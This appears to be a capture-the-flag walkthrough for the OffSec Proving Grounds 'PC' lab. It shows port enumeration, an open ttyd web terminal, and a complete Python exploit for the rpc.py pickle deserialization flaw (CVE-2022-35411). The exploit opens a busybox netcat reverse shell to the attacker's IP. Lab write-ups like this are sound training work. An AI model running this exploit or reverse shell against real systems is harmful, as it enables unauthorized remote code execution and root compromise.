

# PC — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

ttyd web terminal on port 8000 → free shell access → enumerate internal services → rpc.py 0.6.0 CVE-2022-35411 pickle deserialization RCE → root.

---

## Enumeration

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 192.168.204.210 -oN nmap.txt
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu |
| 8000 | HTTP | ttyd 1.7.3 (libwebsockets) |

Port 8000 is running **ttyd** — a web-based terminal emulator. Navigate to it and we get a web shell!

---

## Exploitation — ttyd Web Terminal + rpc.py RCE

The web terminal at `http://192.168.204.210:8000/` gives us initial access as a low-privilege user.

Running enumeration tools reveals an internal service — **rpc.py** running on `127.0.0.1:65432`:



rpc.py versions 0.4.2 through 0.6.0 are vulnerable to **CVE-2022-35411** — an unauthenticated RCE via Python pickle deserialization:

```python
import requests
import pickle

HOST = "127.0.0.1:65432"
URL = f"http://{HOST}/sayhi"
HEADERS = {"serializer": "pickle"}

def generate_payload(cmd):
    class PickleRce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)
    return pickle.dumps(PickleRce())

def exec_command(cmd):
    payload = generate_payload(cmd)
    requests.post(url=URL, data=payload, headers=HEADERS)

def main():
    exec_command('busybox nc 192.168.45.158 4444 -e /bin/sh')

if __name__ == "__main__":
    main()
```

Upload the exploit script and run it locally on the target (since rpc.py listens on 127.0.0.1):

```bash
python3 exploit.py
```

**Root.** 🎉

---

## Key Takeaways

- **ttyd** exposes a web terminal — any unauthenticated ttyd instance is essentially giving away shell access
- **rpc.py pickle deserialization (CVE-2022-35411)** — Python pickle is inherently unsafe for untrusted data; it can execute arbitrary code during deserialization
- Internal services listening on localhost can be exploited once you have initial access — always enumerate internal ports
- `busybox nc` is a reliable alternative when standard `nc` doesn't have the `-e` flag

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
